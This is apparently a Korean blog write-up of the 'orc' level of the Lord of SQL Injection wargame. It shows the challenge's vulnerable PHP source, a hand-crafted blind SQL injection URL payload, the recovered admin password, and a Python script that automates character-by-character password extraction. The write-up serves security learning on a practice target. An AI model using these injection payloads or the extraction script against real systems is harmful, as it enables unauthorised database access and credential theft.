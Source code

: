```yaml
---
layout: post
title: ! "[LOS] orc"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - orc
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![](/assets/posts/los/orc.png)

`query: select id from prob_orc where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

orc 문제는 저번 문제와 다르게 id='admin'으로 고정되어 있고, 입력받은 pw가 db에 있는 pw와 같아야한다.
blind sql injection 문제이고 admin의 pw를 알아야만 문제가 풀린다.
length 함수와 substr 함수로 문제를 풀 것이다.
python으로 코드를 짜서 하는 방법도 있지만 LOS의 첫번째 blind sql injection 문제이므로 수동으로 풀어보겠다.

![](/assets/posts/los/orc_admin.png)

`pw=1%27or%20id=%27admin%27%20and%20length(pw)=%278`

이런식으로 length(pw)='1 부터 Hello admin이 뜨는 숫자를 찾으면 된다.
orc 문제에서 pw의 길이는 8

substr 함수는 문자열이나 변수에서 특정위치부터 정해진 길이만큼 자르는  함수이고 이를 이용해 문제를 해결할 수 있다.
substr(pw,1,1)=1 이라고 한다면 pw의 첫번째 글자가 1인지 확인할 수 있겠다.
pw의 길이는 8이므로 substr(pw,1,1) 부터 substr(pw,8,1) 을 해주면서
값으로는 숫자,알파벳,특수문자 등을 넣으면서 pw를 한글자씩 확인할 수 있다.
blind sql injection이기 때문에 숫자,알파벳,특수문자가 들어가는지 안들어가는지 모르고 직접 손으로 확인하기엔 경우의 수가 너무 많기 때문에 코드를 짜서 푸는 것이다.

![](/assets/posts/los/orc_admin_1.png)
![](/assets/posts/los/orc_admin_2.png)
![](/assets/posts/los/orc_admin_3.png)
![](/assets/posts/los/orc_admin_4.png)
![](/assets/posts/los/orc_admin_5.png)
![](/assets/posts/los/orc_admin_6.png)
![](/assets/posts/los/orc_admin_7.png)
![](/assets/posts/los/orc_admin_8.png)

다행히 숫자와 알파벳밖에 없었기 때문에 금방 풀렸으나 조금더 난이도 높은 pw 였다면 직접 손으로 하기엔 어려움이 있을 것이다.
Hello admin이 뜨는 경우만 봤을때 admin의 pw는 **295d5844** 이다.
이 값을 admin의 pw에 넣어주면 문제가 풀린다.

![](/assets/posts/los/orc_clear.png)

오크 클리어!


### https://los.rubiya.kr 버전
eagle-jump 페이지와 rubiya 페이지의 답이 달랐다.
다시 풀기 귀찮아서 코드로 짰다.

```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/orc_~~.php"

cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?id=admin&pw=1'or id='admin' and length(pw)='"+ str(i) + "%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break
for i in range(1, length):
    for a in alpha:
        parameter = "?id=admin&pw=1'or id='admin' and ASCII(substr(pw,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> " + a)
            result += a
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is "+result)
        print("\n")
```

![](/assets/posts/los/orc_result.png)
![](/assets/posts/los/orc_py_clear.png)
